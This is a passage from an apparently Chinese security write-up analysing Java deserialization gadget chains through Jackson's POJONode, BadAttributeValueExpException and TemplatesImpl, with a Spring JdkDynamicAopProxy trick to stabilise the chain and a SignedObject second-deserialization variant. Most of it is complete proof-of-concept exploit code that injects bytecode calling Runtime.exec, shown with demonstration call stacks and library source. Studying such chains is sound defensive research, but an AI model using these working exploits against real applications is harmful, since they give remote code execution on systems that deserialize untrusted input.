

成功弹出计算器

函数调用栈

```java
access$000:56, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
run:401, TemplatesImpl$1 (com.sun.org.apache.xalan.internal.xsltc.trax)
doPrivileged:-1, AccessController (java.security)
defineTransletClasses:399, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getTransletInstance:451, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
serializeAsField:689, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:774, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
defaultSerializeValue:1142, SerializerProvider (com.fasterxml.jackson.databind)
serialize:115, POJONode (com.fasterxml.jackson.databind.node)
serialize:39, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:20, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
_serialize:480, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serializeValue:319, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serialize:1518, ObjectWriter$Prefetch (com.fasterxml.jackson.databind)
_writeValueAndClose:1219, ObjectWriter (com.fasterxml.jackson.databind)
writeValueAsString:1086, ObjectWriter (com.fasterxml.jackson.databind)
nodeToString:30, InternalNodeMapper (com.fasterxml.jackson.databind.node)
toString:136, BaseJsonNode (com.fasterxml.jackson.databind.node)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
unserialize:62, Poc1 (SerializeChains.JacksonSer)
main:28, Poc1 (SerializeChains.JacksonSer)
```


## TemplatesImpl链子的不稳定性

在JACKSON触发链的过程中，在com.fasterxml.jackson.databind.ser.std.BeanSerializerBase#serializeFields方法下会获取找到的templates对象的属性并循环触发其getter方法

```java
    protected void serializeFields(Object bean, JsonGenerator gen, SerializerProvider provider)
        throws IOException
    {
        final BeanPropertyWriter[] props;
        if (_filteredProps != null && provider.getActiveView() != null) {
            props = _filteredProps;
        } else {
            props = _props;
        }
        int i = 0;
        try {
            for (final int len = props.length; i < len; ++i) {
                BeanPropertyWriter prop = props[i];
                if (prop != null) { // can have nulls in filtered list
                    prop.serializeAsField(bean, gen, provider);
                }
            }
            if (_anyGetterWriter != null) {
                _anyGetterWriter.getAndSerialize(bean, gen, provider);
            }
        } catch (Exception e) {
            String name = (i == props.length) ? "[anySetter]" : props[i].getName();
            wrapAndThrow(provider, e, bean, name);
        } catch (StackOverflowError e) {
            // 04-Sep-2009, tatu: Dealing with this is tricky, since we don't have many
            //   stack frames to spare... just one or two; can't make many calls.

            // 10-Dec-2015, tatu: and due to above, avoid "from" method, call ctor directly:
            //JsonMappingException mapE = JsonMappingException.from(gen, "Infinite recursion (StackOverflowError)", e);
            DatabindException mapE = new JsonMappingException(gen, "Infinite recursion (StackOverflowError)", e);

            String name = (i == props.length) ? "[anySetter]" : props[i].getName();
            mapE.prependPath(bean, name);
            throw mapE;
        }
    }
```



但是好像获取的这三个props的顺序是随机的（虽然我反复调试了三次都是一样的顺序），如果某个props例如stylesheetDOM在outputProperties之前，那么getStylesheetDOM会先触发，但是此时`_sdom`的属性是空，那么就会导致抛出空指针报错，从而终止反序列化的流程

这也是为什么说该链子不太稳定的原因

### 如何解决？

我们看到Templates接口

```java
public interface Templates {

    Transformer newTransformer() throws TransformerConfigurationException;
    
    Properties getOutputProperties();
}
```

可以发现这个只有一个getOutputProperties方法

总结一句话：**当我们使用反射获取一个代理类上的所有方法时，只能获取到其代理的接口方法。**

我们的目的应该是让代理接口仅仅包含我们需要的方法 getOutputProperties，此时Templates接口就只有一个getOutputProperties方法，也是我们想要的

解决方法就是：

1. 构造一个 `JdkDynamicAopProxy` 类型的对象，将 `TemplatesImpl` 类型的对象设置为 `targetSource`
2. 使用这个 `JdkDynamicAopProxy` 类型的对象构造一个代理类，代理 `javax.xml.transform.Templates` 接口
3. JSON 序列化库只能从这个 `JdkDynamicAopProxy` 类型的对象上找到 `getOutputProperties` 方法
4. 通过代理类的 `invoke` 机制，触发 `TemplatesImpl#getOutputProperties` 方法，实现恶意类加载

我们搓一下实现的代码

```java
//获取进行了动态代理的templatesImpl，保证触发getOutputProperties
public static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception{
    Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
    Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
    cons.setAccessible(true);
    AdvisedSupport advisedSupport = new AdvisedSupport();
    advisedSupport.setTarget(templatesImpl);
    InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
    Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
    return proxyObj;
}
```

JdkDynamicAopProxy是Spring AOP的JDK动态代理类，它实现了InvocationHandler接口

### 源码分析

看到JdkDynamicAopProxy类的invoke方法

```java
	@Override
	@Nullable
	public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
		Object oldProxy = null;
		boolean setProxyContext = false;

		TargetSource targetSource = this.advised.targetSource;
		Object target = null;

		try {
			if (!this.equalsDefined && AopUtils.isEqualsMethod(method)) {
				// The target does not implement the equals(Object) method itself.
				return equals(args[0]);
			}
			else if (!this.hashCodeDefined && AopUtils.isHashCodeMethod(method)) {
				// The target does not implement the hashCode() method itself.
				return hashCode();
			}
			else if (method.getDeclaringClass() == DecoratingProxy.class) {
				// There is only getDecoratedClass() declared -> dispatch to proxy config.
				return AopProxyUtils.ultimateTargetClass(this.advised);
			}
			else if (!this.advised.opaque && method.getDeclaringClass().isInterface() &&
					method.getDeclaringClass().isAssignableFrom(Advised.class)) {
				// Service invocations on ProxyConfig with the proxy config...
				return AopUtils.invokeJoinpointUsingReflection(this.advised, method, args);
			}

			Object retVal;

			if (this.advised.exposeProxy) {
				// Make invocation available if necessary.
				oldProxy = AopContext.setCurrentProxy(proxy);
				setProxyContext = true;
			}

			// Get as late as possible to minimize the time we "own" the target,
			// in case it comes from a pool.
			target = targetSource.getTarget();
			Class<?> targetClass = (target != null ? target.getClass() : null);

			// Get the interception chain for this method.
			List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);

			// Check whether we have any advice. If we don't, we can fall back on direct
			// reflective invocation of the target, and avoid creating a MethodInvocation.
			if (chain.isEmpty()) {
				// We can skip creating a MethodInvocation: just invoke the target directly
				// Note that the final invoker must be an InvokerInterceptor so we know it does
				// nothing but a reflective operation on the target, and no hot swapping or fancy proxying.
				Object[] argsToUse = AopProxyUtils.adaptArgumentsIfNecessary(method, args);
				retVal = AopUtils.invokeJoinpointUsingReflection(target, method, argsToUse);
			}
			else {
				// We need to create a method invocation...
				MethodInvocation invocation =
						new ReflectiveMethodInvocation(proxy, target, method, args, targetClass, chain);
				// Proceed to the joinpoint through the interceptor chain.
				retVal = invocation.proceed();
			}

			// Massage return value if necessary.
			Class<?> returnType = method.getReturnType();
			if (retVal != null && retVal == target &&
					returnType != Object.class && returnType.isInstance(proxy) &&
					!RawTargetAccess.class.isAssignableFrom(method.getDeclaringClass())) {
				// Special case: it returned "this" and the return type of the method
				// is type-compatible. Note that we can't help if the target sets
				// a reference to itself in another returned object.
				retVal = proxy;
			}
			else if (retVal == null && returnType != Void.TYPE && returnType.isPrimitive()) {
				throw new AopInvocationException(
						"Null return value from advice does not match primitive return type for: " + method);
			}
			return retVal;
		}
		finally {
			if (target != null && !targetSource.isStatic()) {
				// Must have come from TargetSource.
				targetSource.releaseTarget(target);
			}
			if (setProxyContext) {
				// Restore old proxy.
				AopContext.setCurrentProxy(oldProxy);
			}
		}
	}
```

JdkDynamicAopProxy类中的advised成员是org.springframework.aop.framework.AdvisedSupport类型的对象，targetSource是取自advised对象中的targetSource成员变量，该成员变量中保存了JdkDynamicAopProxy类代理的接口的实现类

当代理类的某个方法被调用时会触发invoke方法，然后会尝试调用targetSource成员变量中保存的接口的实现类所实现的成员方法，那么就会调用到getOutputProperties方法



可以看到此时的props只剩下outputProperties了，那么就不会存在不稳定的问题了

### 最终POC2

```java
package SerializeChains.JacksonSer;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;

public class Poc2 {
    public static void main(String[] args) throws Exception {
        overrideJackson();
        TemplatesImpl templates = (TemplatesImpl) initEvilTemplates();
        Object proxy = getPOJONodeStableProxy(templates);

        POJONode pojoNode = new POJONode(proxy);

        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",pojoNode);


        //序列化和反序列化
        serialize(badAttributeValueExpException);
        unserialize("jacksonSerialize02.txt");
    }
    //获取进行了动态代理的templatesImpl，保证触发getOutputProperties
    public static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception{
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
        return proxyObj;
    }
    public static void overrideJackson() throws NotFoundException, CannotCompileException, IOException {
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
    }
    public static TemplatesImpl initEvilTemplates() throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        byte[] bytes = getshortclass("calc");
        byte[][] codes = {bytes};

        setFieldValue(templates, "_bytecodes", codes);
        setFieldValue(templates,"_name","a");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("jacksonSerialize02.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }

    //infer师傅的class，用于生成恶意命令执行class字节码
    public static byte[] getshortclass(String cmd) throws CannotCompileException, IOException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        byte[] bytes = clazz.toBytecode();
        return bytes;
    }
}
```

函数调用栈

```java
access$000:56, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
run:401, TemplatesImpl$1 (com.sun.org.apache.xalan.internal.xsltc.trax)
doPrivileged:-1, AccessController (java.security)
defineTransletClasses:399, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getTransletInstance:451, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeJoinpointUsingReflection:344, AopUtils (org.springframework.aop.support)
invoke:208, JdkDynamicAopProxy (org.springframework.aop.framework)
getOutputProperties:-1, $Proxy0 (com.sun.proxy)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
serializeAsField:689, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:774, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
defaultSerializeValue:1142, SerializerProvider (com.fasterxml.jackson.databind)
serialize:115, POJONode (com.fasterxml.jackson.databind.node)
serialize:39, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:20, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
_serialize:480, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serializeValue:319, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serialize:1518, ObjectWriter$Prefetch (com.fasterxml.jackson.databind)
_writeValueAndClose:1219, ObjectWriter (com.fasterxml.jackson.databind)
writeValueAsString:1086, ObjectWriter (com.fasterxml.jackson.databind)
nodeToString:30, InternalNodeMapper (com.fasterxml.jackson.databind.node)
toString:136, BaseJsonNode (com.fasterxml.jackson.databind.node)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
unserialize:78, Poc2 (SerializeChains.JacksonSer)
main:33, Poc2 (SerializeChains.JacksonSer)
```

可以看到在第一次经过serializeFields函数的时候会调用到动态代理Proxy0的接口的方法，也就是getOutputProperties方法



然后就会直接跳转到JdkDynamicAopProxy的invoke方法



此时就会走我们前面分析的流程，这样确保了不管那个props在outputProperties之前都不会先执行，而是跳转到invoke，从而只执行getOutputProperties方法避免空指针报错

## SignedObject二次反序列化链

之前Hessian2+SignedObject二次反序列化绕过TemplatesImpl无法正常序列化的时候讲过



并且getObject也是一个getter方法，那就可以试一下调用他

### 最终POC

```java
package SerializeChains.JacksonSer;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;

public class SignedObject_POC {
    public static void main(String[] args) throws Exception {
        overrideJackson();
        TemplatesImpl templates = (TemplatesImpl) initEvilTemplates();
        Object proxy = getPOJONodeStableProxy(templates);


        POJONode pojoNode = new POJONode(proxy);
        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",pojoNode);

        //二次反序列化
        SignedObject signedObject = second_serialize(badAttributeValueExpException);

        //触发SignedObject#getObject方法
        POJONode pojoNode2 = new POJONode(signedObject);
        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException2 = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException2,"val",pojoNode2);

        //序列化和反序列化
        serialize(badAttributeValueExpException2);
        unserialize("jacksonSerialize03.txt");
    }
    //二次序列化函数
    public static SignedObject second_serialize(Object o) throws Exception {
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) o, kp.getPrivate(), Signature.getInstance("DSA"));
        return signedObject;
    }
    //获取进行了动态代理的templatesImpl，保证触发getOutputProperties
    public static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception{
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
        return proxyObj;
    }
    public static void overrideJackson() throws NotFoundException, CannotCompileException, IOException {
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
    }
    public static TemplatesImpl initEvilTemplates() throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        byte[] bytes = getshortclass("calc");
        byte[][] codes = {bytes};

        setFieldValue(templates, "_bytecodes", codes);
        setFieldValue(templates,"_name","a");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("jacksonSerialize03.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }

    //infer师傅的class，用于生成恶意命令执行class字节码
    public static byte[] getshortclass(String cmd) throws CannotCompileException, IOException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        byte[] bytes = clazz.toBytecode();
        return bytes;
    }
}
```

函数调用栈

```java
access$000:56, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
run:401, TemplatesImpl$1 (com.sun.org.apache.xalan.internal.xsltc.trax)
doPrivileged:-1, AccessController (java.security)
defineTransletClasses:399, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getTransletInstance:451, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeJoinpointUsingReflection:344, AopUtils (org.springframework.aop.support)
invoke:208, JdkDynamicAopProxy (org.springframework.aop.framework)
getOutputProperties:-1, $Proxy0 (com.sun.proxy)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
serializeAsField:689, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:774, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
defaultSerializeValue:1142, SerializerProvider (com.fasterxml.jackson.databind)
serialize:115, POJONode (com.fasterxml.jackson.databind.node)
serialize:39, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:20, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
_serialize:480, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serializeValue:319, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serialize:1518, ObjectWriter$Prefetch (com.fasterxml.jackson.databind)
_writeValueAndClose:1219, ObjectWriter (com.fasterxml.jackson.databind)
writeValueAsString:1086, ObjectWriter (com.fasterxml.jackson.databind)
nodeToString:30, InternalNodeMapper (com.fasterxml.jackson.databind.node)
toString:136, BaseJsonNode (com.fasterxml.jackson.databind.node)
